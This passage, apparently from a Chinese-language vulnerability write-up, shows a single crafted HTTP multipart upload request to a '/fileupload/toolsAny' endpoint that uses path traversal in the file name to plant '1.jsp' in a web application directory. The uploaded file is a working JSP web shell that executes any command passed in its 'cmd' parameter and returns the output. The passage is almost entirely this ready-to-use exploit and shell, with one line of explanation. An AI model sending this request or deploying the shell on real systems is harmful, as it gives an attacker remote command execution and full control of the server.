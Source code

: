 构造请求包，通过控制文件名的方法上传至该目录中

```
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![](/images/202205241643756.png)
